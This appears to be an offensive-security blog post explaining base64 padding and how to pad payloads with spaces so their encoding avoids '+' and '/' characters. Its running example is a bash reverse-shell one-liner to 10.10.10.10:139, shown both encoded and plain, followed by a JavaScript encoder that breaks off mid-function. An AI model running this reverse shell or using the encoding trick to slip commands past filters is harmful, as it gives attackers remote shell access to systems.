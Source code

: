 Well let’s say you have 2 strings: ‘sh’ and ‘bash’. You encode them to base64:
```bash
$ echo -n 'sh' | base64
c2g=

$ echo -n 'bash' | base64
YmFzaA==
```
And you join them together:
```bash
$ echo -n 'c2g=YmFzaA==' | base64 -d
shbash
```
Looks right; now if you do that without the padding:
```bash
$ echo -n 'c2gYmFzaA' | base64 -d
sh▒\▒base64: invalid input
```
You just get garbage. This is because sh is 16 bits, which is not cleanly divisible by 6 so you get two full 6 bit chunks and then 4 bits leftover:
```bash
py -c "import itertools; print(list(itertools.batched(''.join([bin(ord(x)).replace('0b', '').rjust(8,'0') for x in 'sh']), 6)))"
[('0', '1', '1', '1', '0', '0'), ('1', '1', '0', '1', '1', '0'), ('1', '0', '0', '0')]
```
Without the padding there's no way to know that the 4 bits are left over from the first string and not just the first 4 bits of another character. Hence the mangling.

So to get the index of the character that caused the appearance of the special character we need to do so in bits: 
```bash
$ py -c "print('c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTAuMTAvMTM5IDA+JjE='.index('+'))"
47
```
The annoying character is 47 6 bit chunks into the original payload. So:
$47 * 6 / 8 = 35.25$
8-bit ASCII characters into the payload. This means that the offending character is:
```bash
                                 here
                                  \/
sh -i >& /dev/tcp/10.10.10.10/139 0>&1
```
And as shown in the beginning, adding another space somewhere left of that character shifts the bits around enough to remove it.

Question is where should that **somewhere left** be? Well putting it just left of it works in this case but if the special character would happen to land somewhere in the IP address then that wouldn’t work. Parsing every payload to understand where a space can go doesn’t seem feasible so would adding a space next to the closest space left of the character work? In most cases, probably, but what if you need to include a path that has spaces in it *in* the payload? That seems like it could break things and then i wouldn’t notice the change. Prepending the whole payload with spaces usually works but in most cases the amount of spaces needed to get rid of the special character greatly bloats the size of the encoded payload.

I coded up the approach of adding a space next to the nearest space to the left in JavaScript so you can try it out yourself:
```js
function ascii_only_b64(input) {
    let b64 = btoa(input)
    for(let chr of "/+"){
        for(let index = b64.indexOf(chr); index > 0; index = b64.indexOf(chr)){
            let closestLeftSpace = Math.max(input.lastIndexOf(' ', Math.floor(index / 4) * 3), 0)
			input = input.slice(0, closestLeftSpace) + ' ' + input.slice(closestLeftSpace);
            b64 = btoa(input)
        }
    }
    if (b64[b64.length-2] == '=') {
```